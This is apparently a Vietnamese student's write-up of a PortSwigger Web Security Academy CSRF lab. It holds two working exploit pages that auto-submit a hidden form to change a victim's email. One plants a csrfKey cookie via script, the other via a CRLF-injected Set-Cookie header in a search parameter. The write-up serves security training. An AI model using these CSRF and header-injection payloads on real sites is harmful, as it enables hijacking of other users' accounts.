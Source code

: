# [Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)

Lỗ hổng: CSRF protection hoạt động bằng 2 token khác nhau, một cái ở header, một cái ở form. 2 token này đi cùng nhau nhưng lại không được gán với bất kì session nào. Nghĩa là có thể dùng 2 token được tạo ra hợp lệ bất kì để dùng cho CSRF attack.

Kiểm tra thấy có 2 csrf token khi gửi yêu cầu đổi email:
- ở cookie
- ở body
Hai cái khác nhau, mà phải theo cặp thì mới ok, vd cùng csrf token ở acc A hoặc cùng ở acc B. lấy csrf token ở cookie acc A ghép với csrf token ở body thằng B không được.

=> Đăng nhập vào tài khoản của mình tự lấy 2 csrf token, tìm cách tạo form để có thể thay đổi 2 chỗ chứa csrf token ở request:
```
<html>
<body>
        <form action="https://0aa600e004af3009c0fb074500ce000a.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input required="" type="hidden" name="csrf" value="cAM36nkB7WJqiILer3likVyImLYUmOb6">
        </form>
        <script>
            document.cookie="csrfKey=6IOA3gcgWr7cjKxUdExedgNM9aAAADCg;SameSite=None;Secure";
            document.forms[0].submit();
        </script>
    </body>
</html>
```
- SameSite=None => gửi cookie cross-site
- Secure: cần thiết để SameSite=None


Làm cách này thành công nhưng mà portswigger không ok, => đọc solution làm theo cách của họ:
```
<html>
<body>
        <form action="https://0aa600e004af3009c0fb074500ce000a.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input required="" type="hidden" name="csrf" value="cAM36nkB7WJqiILer3likVyImLYUmOb6">
        </form>

            <img src="https://0aa600e004af3009c0fb074500ce000a.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=6IOA3gcgWr7cjKxUdExedgNM9aAAADCg%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```